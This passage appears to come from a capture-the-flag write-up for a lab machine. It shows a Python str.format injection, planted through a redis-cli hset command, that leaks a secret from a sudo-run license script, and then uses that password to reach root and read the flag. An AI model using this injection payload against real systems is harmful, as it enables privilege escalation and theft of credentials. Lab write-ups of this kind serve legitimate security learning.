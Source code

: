 ```
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")

```

So let's analyze a bit. 

As the name of the machine we can see the following line:

```

license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)

```

This is made out of the `.format` string methods in python. Googling a little bit and you can find this article: https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/

It talks about way this method is vulnerable. Well if it's used with user supplied input, then we can access some sensetive information. 

It is user supplied, because we controll the `license` object we can add to it whatever we want, and that's exactly we we're gonna do. 

We have the `prefix` which is always going to be "microblog", after that we got `username` username is the one we can register. We got `l` which is the license created by some sort of secret, a salt and a hash algorithem. and the `firstlast` which is a variable created by our first and last name that we register to the webapp.

So I created the user with the username `0xfade`, Now I know that a username has fields we got "username", "password", etc. In the script the we can see the username is `HGET`ed from the server, meaning, we can inject code into the username field in the database and find what is the `secret` variable.

```

cooper@format:/dev/shm$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> hset 0xfade username {license.__init__.__globals__[secret]}

cooper@format:/dev/shm$ sudo /usr/bin/license -p 0xfade

Plaintext license key:
------------------------------------------------------
microblogunCR4ckaBL3Pa$$w0rd*!?k1kJjm?|&4%tF:U$1,bw\_",a0GQv7r=f4!G_fadesec

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkaQQ-qlzBxzd-59CPdmd51bzIa09MKrBgDKTrU4FvKx9CTG1cn79EId2jOqPGYfwpdBdadJcFdAeODrIOJ-ElokGCAKNPMkeJKyvVoRXQXYp6uJF153KLDfGjDW9pcUBmBFoxFRdDENDmu6jblHTuCC3O_UURSe7kpsi0Lr3hk7GCpNE=

```

We can see in the plaintext license key after microblog the "secret" which is: unCR4ckaBL3Pa$$w0rd

Hmmm wonder what's that for. 

```

cooper@format:/dev/shm$ su root
Password:
root@format:/dev/shm# cat /root/root.txt
2373faf4404a7798da9a3bb25809c4b0

```

And that's it fellas, thanks for tuning in. Cheers.
